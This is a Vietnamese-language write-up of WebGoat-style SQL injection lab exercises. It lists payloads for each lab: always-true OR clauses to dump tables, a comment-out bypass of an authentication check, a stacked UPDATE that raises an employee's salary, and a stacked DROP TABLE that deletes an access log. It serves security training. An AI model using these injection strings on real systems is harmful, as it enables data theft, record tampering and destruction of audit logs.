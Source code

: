 # (A3) Injection

# SQL Injection (Intro)

## Lab 9

- Để lấy được tất cả dữ liệu trong bảng thì chỉ cần làm logic query thành một query luôn đúng

```sql
SELECT * FROM user_data WHERE first_name = 'John' AND last_name = ‘’ or ‘1’=’1’
```

### Lab 10

- Để lấy được tất cả dữ liệu trong bảng thì chỉ cần làm logic query thành một query luôn đúng

```sql
SELECT * FROM user_data WHERE login_count = 0 AND userid = 0 or 1 = 1
```

### Lab 11

- Payload

```sql
SELECT * FROM employees WHERE last_name = '' or 1=1 -- AND auth_tan = ''
```

### Lab 12

- Để bypass lab này thì cần phải update giá trị lương của Smith, lúc này phải sử dụng Query Chain để chèn câu lệnh update vào sau câu lệnh select
- Payload

```sql
Employee Name: <Anything>
Authentication TAN: '; UPDATE employees SET salary = 1000000 WHERE userid = '37648
```

### Lab 13

- Payload

```sql
Action contains: '; DROP TABLE access_log -- 
```

# SQL Injection **(advanced)**

## Lab 3

### Nguyên nhân lỗi
